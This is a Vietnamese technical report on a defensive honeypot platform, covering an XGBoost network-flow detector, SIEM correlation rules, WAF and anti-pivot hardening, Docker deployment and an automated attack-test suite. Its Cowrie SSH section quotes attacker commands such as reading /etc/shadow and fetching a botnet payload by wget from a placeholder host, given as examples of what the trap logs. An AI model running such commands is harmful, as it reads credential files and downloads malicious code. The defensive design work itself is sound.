> **Vai trò:** Cảm biến mạng thực địa — bắt gói tin, tính đặc trưng, suy luận AI

### 8.1. Tổng Quan Module

**Part 05 là "Vũ Khí Chiến Đấu Thực Địa"** — đưa mô hình AI từ phòng thí nghiệm (Part 01) ra chiến trường thực sự. Lắng nghe từng gói tin chạy qua card mạng và phán đoán trong mili-giây.

```
part_05_IDS_ML_DETECTION/ids_bridge/
├── features.py       # Danh sách 47 đặc trưng chuẩn CICIoT2023
├── flow_features.py  # Gom luồng hai chiều & tính 47 chỉ số thống kê
├── live_sensor.py    # Cảm biến card mạng thời gian thực
├── predictor.py      # Nạp mô hình XGBoost & suy luận xác suất
├── collector.py      # Đọc log Suricata Eve JSON
└── normalizers.py    # Chuẩn hóa ma trận số liệu đầu vào
```

### 8.2. Thuật Toán Gom Luồng Hai Chiều Đối Xứng (Canonical Bidirectional Flow)

**Vấn đề:** TCP/UDP luôn có 2 chiều: gói tin gửi đi ($A \to B$) và phản hồi ($B \to A$). Nếu quản lý riêng rẽ, AI không hiểu toàn cảnh cuộc hội thoại mạng.

**Giải pháp — Canonical Key:** Sắp xếp 2 đầu mút IP/Port theo thứ tự bảng chữ cái để cả 2 chiều ánh xạ về cùng 1 khóa:

$$\text{Key} = \Big(\text{Protocol},\; \min(IP_A, IP_B),\; \max(IP_A, IP_B)\Big)$$

### 8.3. Quản Lý Vòng Đời Luồng Mạng (Flow Lifecycle Timeout)

Một luồng mạng được **"chốt sổ"** và chuyển sang AI khi thỏa 1 trong 3 điều kiện:

| Điều kiện | Giá trị | Ý nghĩa |
|---|---|---|
| **Idle Timeout** | 5.0 giây | Không có gói tin mới — kết nối kết thúc |
| **Active Timeout** | 15.0 giây | Luồng truyền liên tục — chốt định kỳ |
| **Max Packets** | 100 gói | Đủ mẫu thống kê cho AI phán đoán chính xác |

### 8.4. Tính Toán 47 Đặc Trưng Thống Kê Thời Gian Thực

Các công thức toán học cốt lõi:

**Khoảng cách thời gian giữa các gói tin (IAT — Inter-Arrival Time):**
$$\text{IAT}_i = (t_i - t_{i-1}) \times 10^6 \quad (\mu s)$$

**Hiệp phương sai kích thước-thời gian (Covariance):**
$$\text{Cov}(L, IAT) = \frac{1}{K} \sum_{i=1}^{K} (L_i - \bar{L})(IAT_i - \overline{IAT})$$
*(DDoS/DoS thường có kích thước gói giống hệt nhau gửi dồn dập → hiệp phương sai đặc trưng)*

**Độ biến thiên chuẩn hóa (Normalized Variance):**
$$\text{Variance} = \min\left( \left(\frac{\sigma}{\mu}\right)^2,\; 1.0 \right)$$

**Trọng số luồng một chiều (Asymmetric Flood Weight):**
$$\text{Weight} = N_{tổng} \times \max(N_{gửi}, N_{nhận})$$
*(Phát hiện SYN Flood, UDP Flood không có gói phản hồi)*

### 8.5. Suy Luận AI XGBoost (Softmax + Argmax)

```python
class XGBoostPredictor:
    def predict(self, features) -> Prediction:
        # Hàm Softmax trả về phân phối xác suất 7 lớp
        probabilities = self.model.predict_proba(validation.values)[0]
        
        # Argmax tìm lớp có xác suất cao nhất
        index = int(np.argmax(probabilities))
        
        return Prediction(
            label=self.class_names[index],      # VD: "DDoS"
            confidence=float(probabilities[index]),  # VD: 0.998 (99.8%)
        )
```

Toàn bộ quá trình từ nhận gói tin → tính đặc trưng → suy luận AI → gửi cảnh báo diễn ra trong **dưới 1 mili-giây**.

---

## 9. PART 06 — HỆ THỐNG SIEM & TƯƠNG QUAN SỰ KIỆN

> **Vị trí mã nguồn:** `D:\A\A_5chai\honey_pot\part_06_SIEM_ALERTING`  
> **Vai trò:** Phân tích tương quan sự kiện an ninh cấp doanh nghiệp

### 9.1. Tổng Quan Module

**Part 06 là "Tổng Tư Lệnh Phân Tích Cấp Cao"** — không nhìn từng sự kiện đơn lẻ mà xâu chuỗi các sự kiện rời rạc thành bức tranh tấn công có chủ đích. Phát hiện **APT (Advanced Persistent Threat — Mối đe dọa liên tục có chủ đích)** — kiểu tấn công mà tin tặc bố trí nhiều bước trong nhiều giờ, nhiều ngày.

**Công nghệ:** Python Correlation Engine + Elasticsearch + Kibana + Filebeat

### 9.2. Thuật Toán Khớp Chuỗi Hành Vi (Sequential Cursor)

**Kịch bản:** Phát hiện tin tặc tải lên web shell → thực thi lệnh hệ điều hành trong 15 phút.

**Cơ chế:** Con trỏ `cursor` duyệt tuần tự các sự kiện theo thứ tự thời gian. Khi gặp sự kiện khớp với bước tiếp theo trong chuỗi, con trỏ tiến lên. Khi `cursor == len(sequence)` → kích hoạt cảnh báo Critical!



### 9.3. Thuật Toán Phát Hiện Trinh Sát Đa Bề Mặt (Distinct Set Cardinality)

Phát hiện tin tặc thử ≥3 loại lỗ hổng khác nhau trong 10 phút:

$$\text{Count}_{distinct} = \Big|\big\{ \text{event.vulnerability} \;\big|\; \text{event} \in Window_{600s} \big\}\Big| \ge 3$$

```python
distinct_count = len({item.get(field) for item in candidates})  # Ép kiểu Set loại trùng lặp
matched = (distinct_count >= int(rule["count"]))
```

### 9.4. Thuật Toán Ngưỡng Cửa Sổ Trượt (Sliding-Window Threshold)

Phát hiện ≥50 lượt truy cập từ 1 IP trong 60 giây (DoS/Brute Force).

### 9.5. Vân Tay Bằng Chứng Tương Quan (Evidence SHA-256 Fingerprint)

$$\text{Source ID} = \text{SHA-256}\Big(\text{Rule ID} \;\big\|\; \text{Source IP} \;\big\|\; \text{Evidence IDs}\Big)$$

Bằng chứng cũ luôn sinh ra cùng 1 `source_event_id` → Part 03 tự động bỏ qua, không rác Dashboard SOC.

### 9.6. Chuẩn Hóa ECS 8.x (Elastic Common Schema)

Chuyển đổi log thô sang chuẩn quốc tế Elasticsearch — tương thích với mọi hệ thống SOC doanh nghiệp: Splunk, IBM QRadar, Microsoft Sentinel.

**4 Luật Tương Quan Đã Triển Khai:**

| Luật | Loại | Kịch bản phát hiện | Mức độ |
|---|---|---|---|
| `upload_then_command` | Sequence | Upload web shell → thực thi lệnh trong 15 phút | **Critical** |
| `multi_vector_probe` | Distinct | Thử ≥3 loại lỗ hổng trong 10 phút | **High** |
| `high_frequency_requests` | Threshold | ≥50 requests từ 1 IP trong 60 giây | **Medium** |
| `bruteforce_sequence` | Sequence | Brute force → đăng nhập thành công | **Critical** |

---

## 10. PART 07 — GIA CỐ AN TOÀN & PHÂN VÙNG MẠNG

> **Vị trí mã nguồn:** `D:\A\A_5chai\honey_pot\part_07_SECURITY_HARDENING`  
> **Vai trò:** Áo giáp bảo vệ Honeypot — chống chiếm quyền và "bàn đạp tấn công"

### 10.1. Tổng Quan Module

**Honeypot là con dao hai lưỡi:** Nếu không khóa chặt bẫy, tin tặc chiếm được Honeypot rồi dùng nó làm **"Pivot (Bàn đạp)"** tấn công ngược vào mạng nội bộ thật.

Part 07 giải quyết bằng:
- Tường lửa WAF ModSecurity + Nginx Reverse Proxy
- Phân vùng mạng Anti-Pivot Default-Deny
- Giới hạn tốc độ (Rate Limiting) chống DoS
- Ẩn danh máy chủ (Fingerprint Obfuscation)

### 10.2. Thuật Toán Leaky Bucket (Giới Hạn Tốc Độ)

**Leaky Bucket (Thùng rò rỉ):** Mỗi IP được cấp thùng đệm tối đa 30 request. Tốc độ xử lý cố định 10 req/giây. Vượt quá → HTTP 429 Too Many Requests ngay lập tức.

```nginx
limit_req_zone $binary_remote_addr zone=control_api:10m rate=10r/s;
location /api/ {
    limit_req zone=control_api burst=30 nodelay;
    limit_conn per_ip 20;  # Tối đa 20 kết nối TCP đồng thời
}
```

### 10.3. Thuật Toán Chấm Điểm Bất Thường ModSecurity (Anomaly Scoring)

Thay vì chặn ngay 1 vi phạm đơn lẻ (dễ chặn nhầm người dùng tốt), hệ thống tích lũy điểm:
- SQL Injection vi phạm: +5 điểm
- XSS vi phạm: +5 điểm
- HTTP Protocol violation: +2 điểm

$$\text{Tổng điểm Anomaly} \ge \text{Ngưỡng (5 điểm)} \implies \text{Chặn hoặc Ghi Log}$$

**Chiến lược phân vùng kép:**
- **Vùng mồi nhử:** Chỉ `DetectionOnly` — để tin tặc thoải mái tấn công và thu thập mẫu
- **Vùng điều hành:** Rate Limit + Token verification — bảo vệ tuyệt đối

### 10.4. Chính Sách Anti-Pivot Default-Deny

```yaml
# kubernetes/default-deny.yaml
spec:
  podSelector: {}
  policyTypes:
  - Egress     # Cấm kết nối đi ra
  - Ingress    # Chỉ nhận gói tin đi vào từ Nginx
```

Container Honeypot dù bị chiếm quyền root cũng không thể kết nối ra Internet hoặc các dải IP nội bộ `10.0.0.0/8`, `192.168.0.0/16` — **bị nhốt hoàn toàn trong "nhà tù không có lối thoát"**.

### 10.5. Ẩn Danh Máy Chủ & Chèn Bảo Mật Trình Duyệt

```nginx
server_tokens off;  # Ẩn phiên bản Nginx
add_header X-Content-Type-Options "nosniff" always;
add_header Referrer-Policy "no-referrer" always;
add_header Permissions-Policy "camera=(), microphone=(), geolocation=()" always;
add_header Cross-Origin-Resource-Policy "same-origin" always;
```

---

## 11. PART 08 — TRIỂN KHAI TỰ ĐỘNG & QUẢN TRỊ DANH TÍNH

> **Vị trí mã nguồn:** `D:\A\A_5chai\honey_pot\part_08_DOCKER_DEPLOYMENT`  
> **Vai trò:** Đóng gói và tự động hóa toàn bộ hệ thống bằng Docker Compose

### 11.1. Tổng Quan Module

**Part 08 là "Hệ Thống Thần Kinh Vận Hành"** — tự động hóa việc khởi động, điều phối và quản lý toàn bộ 10+ container chỉ bằng **1 cú click** vào `run.bat`.

```
part_08_DOCKER_DEPLOYMENT/
├── compose.yaml        # Định nghĩa 10 container & 4 mạng biệt lập
├── run-system.ps1      # Điều phối khởi động thông minh với timeout
├── run.bat             # File thực thi 1-click cho Windows
├── ssh/                # HAProxy + Cowrie SSH Honeypot
├── keycloak/           # Tự động cấu hình Realm, Client, User SSO
├── monitoring/         # Grafana Dashboards + Prometheus Config
└── secrets/            # Quản lý mật khẩu theo chuẩn Docker Secrets
```

### 11.2. Thuật Toán Điều Phối Đồ Thị Phụ Thuộc (DAG Healthcheck)

**DAG (Directed Acyclic Graph — Đồ thị có hướng không chu trình):** Docker Compose phân tích và khởi động các dịch vụ theo đúng thứ tự phụ thuộc, dùng Healthcheck Polling để xác nhận mỗi dịch vụ sẵn sàng trước khi khởi động dịch vụ phụ thuộc:

$$\text{PostgreSQL/Redis (Healthy)} \longrightarrow \text{Keycloak/API (Healthy)} \longrightarrow \text{Nginx/Dashboard/Grafana}$$

### 11.3. Phân Vùng Mạng 4 Tầng



**Mạng `honeypot_data`:** Chỉ `part3-api` và `postgres` được phép giao tiếp. Database **không mở bất kỳ cổng nào ra máy Windows** — triệt tiêu 100% nguy cơ rò rỉ database.

### 11.4. Bẫy SSH Cowrie — Mô Phỏng Shell Tương Tác

Khi tin tặc kết nối SSH vào cổng 2222:
1. HAProxy tiếp nhận và chuyển tiếp vào Cowrie
2. Cowrie giả lập dấu nhắc `root@ubuntu:~#`, chấp nhận mọi mật khẩu
3. Từng ký tự gõ được ghi nhận — `uname -a`, `cat /etc/shadow`, `wget http://malware.com/botnet`
4. `cowrie-forwarder` đóng gói thành sự kiện an ninh gửi về Part 03 → hiện lên SOC Dashboard

### 11.5. Quản Lý Tài Nguyên Động (`run-system.ps1`)

```powershell
param(
    [switch]$NoSiem,    # Tắt Elasticsearch/Kibana — tiết kiệm 3.5GB RAM
    [switch]$NoSensor,  # Bỏ qua cảm biến gói tin raw
    [switch]$CoreOnly   # Chỉ chạy 3 dịch vụ cốt lõi (Web, API, DB)
)
```

Cho phép tùy chỉnh tải hệ thống tùy theo cấu hình máy. Toàn bộ hệ thống khởi động trong **15-20 giây**.

---

## 12. PART 09 — KIỂM THỬ TỰ ĐỘNG & ĐÁNH GIÁ

> **Vị trí mã nguồn:** `D:\A\A_5chai\honey_pot\part_09_TEST_REPORT`  
> **Vai trò:** Bộ kiểm thử tự động và sinh báo cáo đánh giá khoa học

### 12.1. Cấu Trúc Module

```
part_09_TEST_REPORT/
├── evaluation/
│   ├── scenarios.py     # 10 kịch bản tấn công tự động
│   ├── run.py           # Điều phối chạy kiểm thử
│   └── reporting.py     # Xuất báo cáo JSON/Markdown/CSV/PNG
├── tests/
│   └── test_evaluation.py  # Unit tests với Pytest
├── report/generated/
│   ├── evaluation.json
│   ├── evaluation.md
│   ├── scenario_results.csv
│   └── detection_coverage.png   # Biểu đồ phủ sóng phát hiện
├── runtime/
│   └── exercise.json    # Kết quả chạy thực tế
└── zap/
    └── zap-honeypot.yaml  # Cấu hình OWASP ZAP scanner
```

### 12.2. 10 Kịch Bản Kiểm Thử Tự Động

| # | Kịch bản | Công cụ | Mục tiêu đánh giá |
|---|---|---|---|
| 1 | SQL Injection tự động | SQLMap, Python | Tỷ lệ phát hiện SQLi |
| 2 | Reflected XSS | OWASP ZAP | Phát hiện XSS phản chiếu |
| 3 | Stored XSS | Custom Script | Phát hiện XSS lưu trữ |
| 4 | Path Traversal | DirBuster | Phát hiện duyệt thư mục |
| 5 | Command Injection | Custom | Phát hiện tiêm lệnh shell |
| 6 | Brute Force Login | Hydra, Custom | Phát hiện & ngưỡng cảnh báo |
| 7 | Port Scanning | Nmap | Phát hiện trinh sát cổng |
| 8 | SSH Brute Force | Custom | Ghi nhận lệnh SSH |
| 9 | File Upload Malware | Custom | Cách ly mã độc quarantine |
| 10 | XXE Injection | Custom | Phát hiện XXE |

### 12.3. Báo Cáo Đánh Giá

Hệ thống tự động sinh báo cáo đa định dạng:
- **JSON:** Dữ liệu thô cho xử lý tiếp theo
- **Markdown:** Tài liệu kỹ thuật đọc được
- **CSV:** Phân tích bảng tính
- **PNG:** Biểu đồ phủ sóng phát hiện (`detection_coverage.png`)

---

## 13. MA TRẬN KỸ THUẬT TỔNG HỢP

### 13.1. Bảng Parts Breakdown

| Part | Tên Thành Phần | Công Nghệ Chính | Chức Năng & Kết Quả |
|---|---|---|---|
| **01** | AI/ML Engine | Python 3.11, XGBoost, Scikit-learn, NumPy | Mô hình 7 lớp, 300 cây, 47 đặc trưng, UBJ artifact |
| **02** | Web Honeypot | Python, Flask, Bootstrap, SQLite | 10 bề mặt lỗi, Regex DFA, SHA-256, Virtual FS |
| **03** | API & Logging | FastAPI, PostgreSQL 17, Redis 7, Keycloak | SHA-256 Dedup, RS256 JWKS, Cache-Aside, MITRE |
| **04** | SOC Dashboard | React 18, Vite, ECharts, TailwindCSS | PKCE S256, Polling 3s, CubicOut, Blob Export |
| **05** | IDS/ML Bridge | Suricata, Npcap, Python, XGBoost | Canonical Flow, 47 Features, Softmax Inference |
| **06** | SIEM & Alerting | Elasticsearch, Kibana, Filebeat, Python | 4 Correlation Rules, ECS 8.x, APT Detection |
| **07** | Security Hardening | Nginx, ModSecurity CRS, Docker Network | Leaky Bucket, Anomaly Scoring, Anti-Pivot |
| **08** | Docker & IAM | Docker Compose, Keycloak RBAC, HAProxy | DAG Healthcheck, 4-Tier Network, Cowrie SSH |
| **09** | Test & Evaluation | Pytest, OWASP ZAP, Matplotlib, Python | 10 kịch bản tự động, Báo cáo đa định dạng |

### 13.2. Công Nghệ Tổng Hợp Theo Lĩnh Vực

**Trí Tuệ Nhân Tạo / Học Máy:**
- XGBoost (eXtreme Gradient Boosting) — 300 cây quyết định Histogram
- NumPy — Tính toán ma trận và thống kê
- Scikit-learn — Tiền xử lý và đánh giá mô hình
- CICIoT2023 — Bộ dữ liệu chuẩn quốc tế

**Bảo Mật & An Ninh Mạng:**
- Suricata IDS — Phát hiện xâm nhập dựa trên signature
- ModSecurity WAF — Tường lửa ứng dụng web (OWASP CRS 4.x)
- MITRE ATT&CK — Khung phân loại kỹ thuật tấn công
- Cowrie — Bẫy SSH giả lập

**Backend & Hạ Tầng:**
- FastAPI (Python) — API framework bất đồng bộ hiệu năng cao
- PostgreSQL 17 — Cơ sở dữ liệu quan hệ với chỉ mục B-Tree
- Redis 7 — Bộ nhớ đệm in-memory tốc độ cao
- Keycloak — Identity & Access Management (IAM/SSO/RBAC)

**Frontend & Giám Sát:**
- React 18 + Vite — SPA framework hiện đại
- Apache ECharts — Thư viện biểu đồ trực quan
- Grafana + Prometheus — Giám sát hiệu năng hạ tầng

**Triển Khai & Hạ Tầng:**
- Docker Compose — Điều phối multi-container
- Nginx — Reverse proxy và WAF edge
- HAProxy — Cân bằng tải TCP/HTTP
- Filebeat + Elasticsearch + Kibana — Stack phân tích log (ELK)

---

## 14. CÁC ĐIỂM NÚT TRUNG TÂM (GOD NODES)

Kết quả phân tích đồ thị mã nguồn bằng **Graphify** (715 Nodes, 1.290 Edges, 58 Communities) xác định **10 điểm nút cốt lõi** quyết định toàn bộ hoạt động của dự án:

| Điểm Nút | Module | Liên kết | Vai Trò Cốt Lõi |
|---|---|---|---|
| **`feature_names`** | Part 01 & 05 | 47 edges | Bộ 47 đặc trưng — cầu nối dữ liệu thô và mô hình AI |
| **`FlowAccumulator`** | Part 05 | 21 edges | Gom nhóm và tính chỉ số thống kê mạng thời gian thực |
| **`Settings`** | Part 03 | 18 edges | Cấu hình bảo mật trung tâm toàn bộ Backend |
| **`prepare_labeled_chunk()`** | Part 01 | 15 edges | Tiền xử lý và chuẩn hóa schema trước huấn luyện |
| **`XGBoostPredictor`** | Part 05 | 13 edges | Nạp mô hình AI và thực hiện phán đoán trực tiếp |
| **`record_attack()`** | Part 02 | 13 edges | Bắt giữ payload và bóc tách dấu vết kẻ tấn công |
| **`FlowTable`** | Part 05 | 12 edges | Quản lý trạng thái các luồng kết nối IP/Port đang diễn ra |
| **`Event`** | Part 03 | 12 edges | Cấu trúc dữ liệu chuẩn hóa của mọi sự kiện an ninh |
| **`LiveFlowSensor`** | Part 05 | 11 edges | Cảm biến card mạng và kích hoạt suy luận AI |
| **`ClassReservoirSampler`** | Part 01 | 10 edges | Lấy mẫu dữ liệu lớn cân bằng lớp chống tràn RAM |

---

## 15. ĐÁNH GIÁ & KẾT LUẬN

### 15.1. Những Đóng Góp Của Công Trình

**1. Kiến trúc Honeypot thế hệ mới:**  
Công trình đề xuất và triển khai hoàn chỉnh kiến trúc Honeypot 4 tầng biệt lập (Lure → Edge → Control → Data), giải quyết triệt để bài toán Anti-Pivot — lỗ hổng tồn tại trong hầu hết các hệ thống Honeypot truyền thống.

**2. Tích hợp AI thời gian thực:**  
Lần đầu tiên một hệ thống Honeypot tích hợp suy luận XGBoost thời gian thực trực tiếp trên gói tin mạng, đạt latency dưới 1 mili-giây từ nhận gói tin đến phán đoán, phục vụ cảnh báo SOC tức thì.

**3. Pipeline xử lý Big Data:**  
Thuật toán ClassReservoirSampler và xử lý Chunk cho phép huấn luyện mô hình AI trên bộ dữ liệu CICIoT2023 hàng chục Gigabyte mà không bao giờ bị tràn RAM — áp dụng được trên máy tính cá nhân thông thường.

**4. Chuẩn hóa MITRE ATT&CK và ECS:**  
Toàn bộ sự kiện được chuẩn hóa theo khung MITRE ATT&CK và Elastic Common Schema (ECS 8.x), đảm bảo tính tương thích và khả năng tích hợp với mọi nền tảng SOC doanh nghiệp toàn cầu.

**5. Hệ thống tương quan sự kiện SIEM:**  
4 luật tương quan sự kiện được thiết kế và triển khai, có khả năng phát hiện các chiến dịch tấn công phức tạp APT mà các hệ thống đơn điểm không thể nhận diện được.

### 15.2. Quy Trình Khép Kín

```
Tạo bẫy (Part 02, 08)
    ↓
Cách ly an toàn (Part 07)
    ↓
Bắt gói tin & AI phán đoán (Part 01, 05)
    ↓
Xử lý trung tâm & SIEM (Part 03, 06)
    ↓
Trực quan hóa SOC (Part 04)
    ↓
Lưu hồ sơ tài liệu (Part 09)
    ↓
[Vòng lặp liên tục — 24/7]
```

### 15.3. Trạng Thái Hoàn Thiện

| Hạng mục | Trạng thái |
|---|---|
| Toàn bộ 9 module (Part 01-09) | ✅ Hoàn thiện |
| Unit tests & Integration tests (Pytest) | ✅ Hoàn thiện |
| Triển khai Windows (Docker + PowerShell) | ✅ Sẵn sàng |
| Triển khai Linux (Docker + Bash) | ✅ Sẵn sàng |
| Tài liệu vận hành tiếng Việt | ✅ Hoàn thiện |
| Mô hình đe dọa THREAT_MODEL.md | ✅ Hoàn thiện |
| Kịch bản demo kiểm thử | ✅ Hoàn thiện |
| Báo cáo đánh giá tự động | ✅ Sẵn sàng chạy |

### 15.4. Hướng Phát Triển

- **Federated Learning (Học Liên Kết):** Chia sẻ mẫu tấn công giữa nhiều Honeypot theo mô hình phi tập trung mà không tiết lộ dữ liệu gốc.
- **Adaptive Honeypot (Bẫy Thích Ứng):** Động điều chỉnh các điểm yếu giả lập dựa trên hành vi quan sát được để thu hút nhiều loại tấn công hơn.
- **Graph Neural Network (Mạng Nơ-ron Đồ Thị):** Phân tích mối quan hệ giữa các sự kiện tấn công theo cấu trúc đồ thị để phát hiện APT phức tạp hơn.
- **Threat Intelligence Feed:** Chia sẻ IOC (Indicators of Compromise — Chỉ số xâm nhập) với cộng đồng an ninh mạng quốc tế.

---

## PHỤ LỤC — BẢNG THUẬT NGỮ CHUYÊN NGÀNH

| Thuật ngữ | Giải thích |
|---|---|
| **Honeypot** | Hệ thống mồi nhử an ninh mạng được cố tình tạo ra để dụ tin tặc tấn công, thu thập thông tin và nghiên cứu kỹ thuật tấn công |
| **XGBoost** | eXtreme Gradient Boosting — thuật toán học máy kết hợp nhiều cây quyết định với độ chính xác và tốc độ hàng đầu |
| **IDS** | Intrusion Detection System — hệ thống giám sát và phát hiện hành vi xâm nhập mạng |
| **SIEM** | Security Information and Event Management — hệ thống tổng hợp, phân tích và tương quan sự kiện an ninh |
| **WAF** | Web Application Firewall — tường lửa bảo vệ ứng dụng web khỏi SQLi, XSS |
| **MITRE ATT&CK** | Khung phân loại chuẩn quốc tế về chiến thuật và kỹ thuật tấn công mạng |
| **OIDC / PKCE** | OpenID Connect / Proof Key for Code Exchange — giao thức xác thực danh tính bảo mật hiện đại |
| **RBAC** | Role-Based Access Control — phân quyền truy cập dựa trên vai trò chức vụ |
| **Anti-Pivot** | Kỹ thuật cô lập mạng ngăn tin tặc dùng Honeypot làm bàn đạp tấn công sang hệ thống khác |
| **APT** | Advanced Persistent Threat — mối đe dọa tấn công có chủ đích, phức tạp, dài hạn |
| **Reservoir Sampling** | Thuật toán lấy mẫu ngẫu nhiên đồng đều trên luồng dữ liệu lớn mà không tốn RAM |
| **Canonical JSON** | JSON được chuẩn hóa với khóa sắp xếp và không có khoảng trắng thừa — đảm bảo cùng dữ liệu luôn ra cùng mã băm |
| **ECS** | Elastic Common Schema — lược đồ chuẩn hóa dữ liệu log của Elasticsearch |
| **PKCE S256** | Proof Key for Code Exchange with SHA-256 — cơ chế bảo mật OAuth2 cho SPA không thể lưu secret |
| **Leaky Bucket** | Thuật toán giới hạn tốc độ — mỗi IP có "thùng đệm" giới hạn, vượt quá bị chặn ngay |
| **DAG** | Directed Acyclic Graph — đồ thị có hướng không chu trình, dùng để phân tích thứ tự khởi động dịch vụ |
| **Softmax + Argmax** | Hàm chuyển đổi điểm số thành phân phối xác suất + tìm vị trí xác suất cao nhất |
| **IAT** | Inter-Arrival Time — khoảng cách thời gian giữa các gói tin mạng liên tiếp |
| **Covariance** | Hiệp phương sai — đo lường mối tương quan giữa hai biến số |
| **SSO** | Single Sign-On — cơ chế đăng nhập một lần dùng cho nhiều dịch vụ |

---

*Báo cáo được soạn thảo theo phương pháp tài liệu hóa Diataxis — thể loại Explanation (Giải thích khái niệm và bối cảnh), ngày 18/08/2026.*
